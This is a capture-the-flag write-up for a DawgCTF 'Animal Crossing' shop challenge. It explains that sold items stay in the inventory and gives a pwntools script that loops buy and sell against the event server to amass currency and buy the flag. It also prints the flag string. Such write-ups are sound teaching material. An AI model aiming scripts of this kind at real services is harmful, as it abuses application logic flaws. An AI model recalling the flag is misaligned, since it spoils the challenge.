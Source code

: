Testing the program from shell I noticed that buying a flimsy net and selling it was not removed from the inventory.
So we can earn infinite bells and buy the flag. 
(The official solution use tarantulas insted of flimsy net -> less cycles)

Exploit:
```python
from pwn import *

p = remote('ctf.umbccd.io', 4400)
#p = process('./animal_crossing')

print(p.recvuntil('Choice: ').decode())
p.sendline('2')
print(p.recvuntil('420000 bells\n').decode())
p.sendline('1')

for i in range (1050):
    print(p.recvuntil('Choice: ').decode())
    p.sendline('1')
    print(p.recvuntil('400 bells\n').decode())
    p.sendline('5')
    print(f'ciclo {i} finito')

print(p.recvuntil('Choice: ').decode())
p.sendline('1')
print(p.recvuntil('400 bells\n').decode())
p.sendline('1')
print(p.recvuntil('Choice: ').decode())
p.sendline('2')
print(p.recvuntil('420000 bells\n').decode())
p.sendline('6')
print(p.recvuntil('Choice: ').decode())
p.sendline('1')
p.interactive()
```

# FLAG
`DawgCTF{1nf1n1t3_t@rantul@$}`
